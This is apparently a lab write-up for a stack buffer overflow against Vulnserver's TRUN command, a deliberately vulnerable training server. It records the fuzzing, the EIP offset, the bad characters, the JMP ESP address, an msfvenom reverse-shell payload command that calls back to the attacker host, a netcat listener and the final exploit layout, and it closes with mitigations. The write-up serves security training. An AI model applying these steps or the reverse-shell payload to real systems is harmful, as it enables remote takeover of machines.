









# Buffer Overflow Exploitation — Vulnserver (TRUN)

**Type:** Stack-Based Buffer Overflow  
**Target:** Vulnserver v1.00 — Windows 11 VM  
**Attacker:** Parrot OS  
**Tools:** Immunity Debugger, Mona.py, Metasploit Framework (msfvenom), Python3, Netcat  

---

## Overview

This lab demonstrates a classic stack-based buffer overflow against Vulnserver, a deliberately vulnerable Windows TCP server. The goal is to gain a reverse shell on the target machine by overwriting the instruction pointer (EIP) and redirecting execution to custom shellcode.

---

## Environment Setup

| Role     | OS         | IP Address      |
|----------|------------|-----------------|
| Attacker | Parrot OS  | 192.168.86.43   |
| Target   | Windows 11 | 192.168.86.69   |

**Target software:**
- Vulnserver v1.00 (running on port 9999)
- Immunity Debugger
- Mona.py (placed in `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\`)

**Attacker tools:**
- Python3
- Metasploit Framework (`msfvenom`, `msf-pattern_create`, `msf-pattern_offset`)
- Netcat

---

## 1. Reconnaissance

Connected to Vulnserver using Netcat to enumerate available commands:

```bash
nc 192.168.86.69 9999
```




Running `HELP` revealed the available commands. The `TRUN` command was identified as the target due to improper input validation making it vulnerable to a stack-based buffer overflow.

---

## 2. Fuzzing

A Python fuzzer was written to send increasingly large buffers to the `TRUN` command until the server crashed.


**Result:** Vulnserver crashed at approximately **2000 bytes**. Immunity Debugger confirmed EIP was overwritten with `41414141` (AAAA).

---

## 3. Finding the Offset

A cyclic pattern of 2400 bytes was generated to find the exact EIP offset:

```bash
msf-pattern_create -l 2400
```

After sending the pattern and crashing the server, Immunity showed:



EIP: 386F4337

```bash
msf-pattern_offset -l 2400 -q 386f4337
```



**Result:** Exact match at offset **2003 bytes**.

---

## 4. Controlling EIP

A buffer of 2003 `A`s followed by `BBBB` was sent to verify EIP control:

```python
offset = 2003
overflow = "A" * offset
retn = "BBBB"
```



**Result:** EIP = `42424242` (BBBB) — full control of the instruction pointer confirmed.

---

## 5. Finding Bad Characters

All bytes from `\x01` to `\xff` were sent after the offset to identify characters that would corrupt the shellcode. `\x00` was excluded as it is always a bad character for string-based overflows.

```python
!mona config -set workingfolder C:\mona
!mona bytearray -b "\x00"
!mona compare -f C:\mona\bytearray.bin -a 00BCF9CC
```





**Result:** Status — **Unmodified**. No additional bad characters found.

**Bad characters: `\x00` only**

---

## 6. Finding JMP ESP

Mona searched for all `JMP ESP` instructions excluding the bad character:



**Result:** 9 pointers found. Selected address from `essfunc.dll` (no ASLR/DEP): JMP ESP: 0x625011af

Little-endian format for exploit: `\xaf\x11\x50\x62`

---

## 7. Generating Shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.86.43 LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```




**Result:** 351-byte payload encoded with `x86/shikata_ga_nai`.

---

## 8. Getting a Shell

Final exploit structure:

| Component | Size       | Value                         |
|-----------|------------|-------------------------------|
| Padding   | 2003 bytes | `A` * 2003                    |
| EIP       | 4 bytes    | `\xaf\x11\x50\x62` (JMP ESP) |
| NOP sled  | 16 bytes   | `\x90` * 16                   |
| Shellcode | 351 bytes  | msfvenom reverse shell        |

Setup a listener on Parrot:

```bash
nc -lvnp 4444
```

Exploit `final-exploit.py` executed — reverse shell received on attacker machine, and we got a shell.



---

## Summary

| Step               | Result                      |
|--------------------|-----------------------------|
| Vulnerable command | TRUN                        |
| Crash size         | ~2000 bytes                 |
| Exact offset       | 2003 bytes                  |
| Bad characters     | `\x00` only                 |
| JMP ESP address    | `0x625011af` (essfunc.dll)  |
| Shellcode size     | 351 bytes                   |
| Result             | Reverse shell on target     |

---

## Mitigation

Real-world applications should validate and sanitize all input, enforce strict buffer size limits, and be compiled with modern protections such as ASLR, DEP/NX, and stack canaries. Vulnserver intentionally omits these protections for educational purposes.

---
